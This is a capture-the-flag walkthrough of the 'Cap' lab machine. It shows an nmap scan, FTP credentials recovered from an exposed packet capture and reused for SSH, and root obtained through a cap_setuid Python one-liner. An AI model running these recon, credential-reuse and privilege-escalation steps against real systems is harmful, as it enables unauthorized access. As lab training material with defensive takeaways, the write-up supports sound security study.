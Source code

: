 ```yaml
---
description: Linux - Easy
---
```


# Cap

## Recon

We'll start with a `nmap` scan.

```bash
nmap -p- -T4 --min-rate=1000 -sV -sC 10.10.10.245

Starting Nmap 7.91 ( https://nmap.org ) at 2021-10-03 18:13 CEST
Nmap scan report for 10.10.10.245
Host is up (0.049s latency).
Not shown: 65532 closed ports
PORT   STATE SERVICE VERSION
21/tcp open  ftp     vsftpd 3.0.3
22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.2 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 fa:80:a9:b2:ca:3b:88:69:a4:28:9e:39:0d:27:d5:75 (RSA)
|   256 96:d8:f8:e3:e8:f7:71:36:c5:49:d5:9d:b6:a4:c9:0c (ECDSA)
|_  256 3f:d0:ff:91:eb:3b:f6:e1:9f:2e:8d:de:b3:de:b2:18 (ED25519)
80/tcp open  http    gunicorn
| fingerprint-strings: 
|   FourOhFourRequest: 
|     HTTP/1.0 404 NOT FOUND
|     Server: gunicorn
|     Date: Sun, 03 Oct 2021 16:19:17 GMT
|     Connection: close
|     Content-Type: text/html; charset=utf-8
|     Content-Length: 232
|     <!DOCTYPE HTML PUBLIC "-//W3C//DTD HTML 3.2 Final//EN">
|     <title>404 Not Found</title>
|     <h1>Not Found</h1>
|     <p>The requested URL was not found on the server. If you entered the URL manually please check your spelling and try again.</p>
......
```

## User

So, we get a web server, ftp and ssh.  
Lets check out the webpage. It's a network monitoring dashboard, the side panel has three additional pages:  
Security Snapshot \(5 Second PCAP + Analysis\) - http://10.10.10.245/data/5  
IP Config - http://10.10.10.245/ip  
Network Status - http://10.10.10.245/netstat

The Security Snapshot page allows to download a pcap file of the last 5 seconds of network activity.  
For example, if we `ping` the machine 8 times we and request the data page at the start of the ping command we get the following.

![](../../.gitbook/assets/screenshot-7-.png)

It looks like each time the _Security Snapshot_ is requested the results are stored with an numerical index, lets checkout the first snapshot.  
[http://10.10.10.245/data/0](http://10.10.10.245/data/0)  
We get a 72 packets pcap. The protocol hierarchy tells us that its a FTP connection.  
Applying the appropriate filter we'll get the FTP credentials.

![](../../.gitbook/assets/capture%20%282%29.png)

The ftp server will show us nathan user home folder. Here we can get the user flag.

```bash
$ ftp 10.10.10.245
.....
ftp> ls -la
200 PORT command successful. Consider using PASV.
150 Here comes the directory listing.
drwxr-xr-x    3 1001     1001         4096 May 27 09:16 .
drwxr-xr-x    3 0        0            4096 May 23 19:17 ..
lrwxrwxrwx    1 0        0               9 May 15 21:40 .bash_history -> /dev/null
-rw-r--r--    1 1001     1001          220 Feb 25  2020 .bash_logout
-rw-r--r--    1 1001     1001         3771 Feb 25  2020 .bashrc
drwx------    2 1001     1001         4096 May 23 19:17 .cache
-rw-r--r--    1 1001     1001          807 Feb 25  2020 .profile
lrwxrwxrwx    1 0        0               9 May 27 09:16 .viminfo -> /dev/null
-r--------    1 1001     1001           33 Oct 04 07:18 user.txt
ftp> get user.txt
```

If we try reusing the FTP credentials in SSH we'll find that they are valid.

## Root

We have SSH access to the machine. Lets check out how the web app generates the pcap files, given that network capture usually requires elevated privileges.

```bash
$ cd /var/www/html
$ less app.py
......
def capture():

        get_lock()
        pcapid = get_appid()
        increment_appid()
        release_lock()

        path = os.path.join(app.root_path, "upload", str(pcapid) + ".pcap")
        ip = request.remote_addr
        # permissions issues with gunicorn and threads. hacky solution for now.
        #os.setuid(0)
        #command = f"timeout 5 tcpdump -w {path} -i any host {ip}"
        command = f"""python3 -c 'import os; os.setuid(0); os.system("timeout 5 tcpdump -w {path} -i any host {ip}")'"""
        os.system(command)
......
```

Looks like Python3 has SUID flag, the `getcap`command will allow us to check this.  
We can modify the app.py command string to spawn a root shell.

```bash
$ which python3
/usr/bin/python3
$ ls -la /usr/bin/python3
lrwxrwxrwx 1 root root 9 Mar 13  2020 /usr/bin/python3 -> python3.8
$ getcap /usr/bin/python3.8 2>/dev/null
/usr/bin/python3.8 = cap_setuid,cap_net_bind_service+eip
$ python3 -c 'import os; os.setuid(0); os.system("/bin/bash")'
# whoami
root
```

## Conclusion

This machine is quite straight forward, but we can get a couple of takeaways:  
Be mindful of what is exposed in your website, don't reuse credentials and don't grant unrestricted sudo permissions.

